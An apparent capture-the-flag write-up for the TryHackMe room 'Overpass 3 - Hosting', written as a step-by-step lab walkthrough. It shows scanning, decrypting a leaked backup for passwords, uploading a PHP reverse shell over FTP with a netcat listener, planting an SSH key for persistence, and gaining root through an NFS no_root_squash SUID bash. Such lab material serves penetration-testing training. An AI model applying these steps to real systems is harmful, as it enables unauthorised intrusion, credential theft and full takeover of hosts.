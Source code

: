 ### THM - Overpass 3 - Hosting
Difficulty: Medium 

#### Recon
We can start with nmap scan command:

```sudo nmap -vv -A -Pn -p- -oA overpass3_nmap 10.10.205.247```

![nmap_running](~/img/nmap_still_running.png)

While nmap still running we can see that port 80, 21, 22 is open. We can start doing some basic manual recon on the webserver port 80.

![source](~/img/web_source.png)

On the web page, it is safe to assume that paradox, Elf, MuirlandOracle, and James are the users. There is really nothing else to do on the web page. Before we move on to the nmap scan results, lets start our ffuf scan on the webserver. 

```ffuf -u http://10.10.205.247/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -e .php,.txt,.html -ic -c```

Now while ffuf is running, We can move on to the nmapp scan results.

![nmap_results](~/img/nmap_results.png)

We can see that port 21 is open and running vsftpd 3.0.3. However, we can see that anonymous login is disabled. We can also see that port 22 is open and running OpenSSH 8.0 and port 80 is running Apache httpd 2.4.37. Let's check on the ffuf scan results.

![ffuf_results](~/img/ffuf_scan.png)

We can see that there is a directory called 'backups'. Let's check on that.

![backups](~/img/backups_dir.png)

Let's download that backup.zip file and see what's inside.

![backup_zip](~/img/backup_zip_folder.png)

We can see that there is an excel gpg encrypted file and a private key. Let's try to decrypt the file using the private key and convert it to csv file so we can open it.

```gpg --import priv.key```

```gpg --output CustomerDetials.xlsx --decrypt CustomerDetials.xlsx.gpg```

```ssconvert CustomerDetials.xlsx CustomerDetials.csv```

![gpg_decrypt](~/img/gpg_decrypt.png)

![csv_file](~/img/customer_details.png)

#### Exploit

We can see that there are some usernames and passwords in the csv file. We also know that paradox and muirlandoracle are the users from the web page. Let's try to login to the ftp server using the credentials we found.

```ftp 10.10.205.247```
 
 After we login to the ftp server, we can see that it is the /var/www/html directory. It looks like we have permission to upload files. Let's upload a reverse shell and try to get a shell. We will be usig the php reverse shell from pentestmonkey [php_shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). Let's upload the shell and start a netcat listener.

![ftp_upload](~/img/second_ftp.png)

 ```nc -lvnp 4444```

 and call the shell from the browser. ```10.10.205.247/shell.php```

and we got a shell.

![shell](~/img/1foothold.png)

Since we have a foothold, let's make this shell feel a little more comfortable. We can use python to get a better shell.

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

```export TERM=xterm```

```stty raw -echo; fg```

![better_shell](~/img/better_shell.png)


#### Privilege Escalation

We can see that we are in the apache user with limited permissions. However, we can try to find a web flag. So let's do some enumeration. This flag is well hidden but after a while of enumeration, we can see that it is in ```/usr/share/httpd/web.flag```. The easier way to find this flag is to use the find command.

```find / -name *flag* 2>/dev/null```

Now that we found it, let's cat it and get the flag.

![web_flag](~/img/web_flag.png)

First flag down. Let's see what other users are on this host. We can use the command ```cat /etc/passwd``` to see all the users on the host.

![users](~/img/passwd.png)

We can see that paradox user is on there. Let's see if we can ssh to paradox to get user flag.

![ssh_paradox](~/img/ssh_paradox_failed.png)

Host doesn't allow ssh login with password. Let's try to switch to paradox user with su command.

![su_paradox](~/img/su_paradox.png)

Great!...but we can see that there is no flag in paradox home directory. There is another user called James. However, we dont have James password. Let's do some more enumeration.

*Extra

Since we can't ssh to paradox with password, we can try to create a private key on our machine and add the generated public key to authorized_key in .ssh folder in paradox home directory. This way we can ssh to paradox without password.

```ssh-keygen paradox```

Let's add our public key to authorized_key file.

```echo {OUR_GENERATED_PUBLIC_KEY.pub} >> .ssh/authorized_keys```

Then let's try to ssh to paradox.

```ssh paradox@10.10.205.247 -i paradox```

![ssh_paradox](~/img/ssh_paradox.png)

Great! we can ssh to paradox with our private key. Now let's do some more enumeration to gain access to James account. 

After some basic enum we can see that there is a NFS share on the host with misconfigured permissions. Let's mount the share and see what's inside.

![nfs_share](~/img/nfs_share.png)

Let's try to mount the share.

```mkdir /tmp/mount```

```sudo mount -v -t nfs 10.10.205.247:/ /tmp/mount```

![failed_nfs](~/img/failed_nfs.png)

We got "mount.nfs: mount(2): No route to host" error. Let's see if we can list the nfs mount on the host.

```showmount -e 10.10.205.247```

And we get "clnt_create: RPC: Unable to receive" error. Let's check rpcinfo to see if rpcbind is running.

```rpcinfo -p```

![rpcinfo](~/img/rpcinfo.png)

We can see that rpcbind is running and nfs is on the normal nfs port 2049. After trying to run command ```netstat -l``` to see the listening port, we can see that the host doesn't have netstat installed. Hmm...let's try to reverse ssh to the port and try to mount the share again.

```ssh paradox@10.10.205.247 -i paradox -L 2049:localhost:2049```

```sudo mount -v -t nfs localhost:/ /tmp/mount```

![nfs_mount](~/img/mounted_nfs.png)

Let's go ahead and get that user flag.

![user_flag](~/img/user_flag.png)

We can also find a private key in the share. Let's try to use that key to ssh to James account.


```ssh james@10.10.205.247 -i /tmp/mount/.ssh/id_rsa```

Now that we have user flag and ssh to James user, let's try to get root flag. We know that this share is configured with "no_root_squash" option. We use it to get root shell by upload our own bash with SUID bit set and root as owner. Let's create a bash file with SUID bit set and root as owner.

```cp /bin/bash .```

```chmod +xs bash```

![james_folder](~/img/james_folder.png)

And we can run it with this command to get root.

```./bash -p```

![gcc_error](~/img/gcc_error.png)

However, we get gcc error. Let's try to use bash from the host.

On James.
```cp /bin/bash .```

```chmod 777 bash```

On our machine.

```chown root bash```

```chmod +xs bash```

On James.

```./bash -p```

![root_shell](~/img/root_shell.png)

Great! We are now root. Let's get the root flag.

![root_flag](~/img/root_flag.png)

And we got the root flag. Thanks for reading.


